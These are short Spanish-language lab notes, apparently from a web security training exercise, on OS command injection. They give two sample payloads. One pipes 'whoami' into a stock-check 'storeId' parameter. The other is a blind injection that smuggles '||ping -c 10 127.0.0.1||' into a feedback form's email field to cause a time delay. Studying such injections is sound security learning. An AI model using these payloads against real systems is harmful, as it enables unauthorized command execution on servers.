 # OS command injection


# OS command injection, simple case

El caso mas simple en donde se consulta el stock se le agrega el | y el comando

```
productId=1&storeId=1|whoami

```

# Blind OS command injection with time delays

En este caso se inyectan comandos en Submmit feedback se usa de nueva cuenta el pipe |

```
csrf=fTYXLcrD0AxoStj3Bo0z58nhjs22Oep5&name=Masa&email=masa%40gmail.com||ping+-c+10+127.0.0.1||&subject=abcd1234&message=Comment
```





